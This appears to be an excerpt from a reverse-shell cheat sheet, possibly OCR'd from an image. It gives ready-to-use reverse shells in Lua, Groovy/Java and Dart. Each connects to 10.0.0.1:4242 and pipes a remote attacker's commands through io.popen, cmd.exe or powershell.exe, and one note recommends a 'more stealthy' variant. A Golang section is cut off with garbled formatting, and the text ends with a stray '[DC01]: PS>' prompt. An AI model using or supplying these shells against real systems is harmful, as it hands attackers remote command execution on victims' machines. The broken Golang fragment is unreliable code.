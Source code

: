 ## Lua
```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
## Groovy
by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) NOTE: Java reverse shell also work for Groovy
```java
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
### Groovy Alternative
**NOTE**: This is more stealthy
```java
Thread.start {
    // Reverse shell here
}
```
## Dart
```java
import 'dart:io';
import 'dart:convert';

main() {
  Socket.connect("10.0.0.1", 4242).then((socket) {
    socket.listen((data) {
      Process.start('powershell.exe', []).then((Process process) {
        process.stdin.writeln(new String.fromCharCodes(data).trim());
        process.stdout
          .transform(utf8.decoder)
          .listen((output) { socket.write(output); });
      });
    },
    onDone: () {
      socket.destroy();
    });
  });
}
```
# Golang
```
package mainimport (  
 "bufio"  
 "flag"  
 "fmt"  
 "net"  
 "os"  
 "os/exec"  
 "runtime"  
)func get\_arch\_message_format(msg string) (string, \[\]string) {  
 var exe string  
```

[DC01]: PS>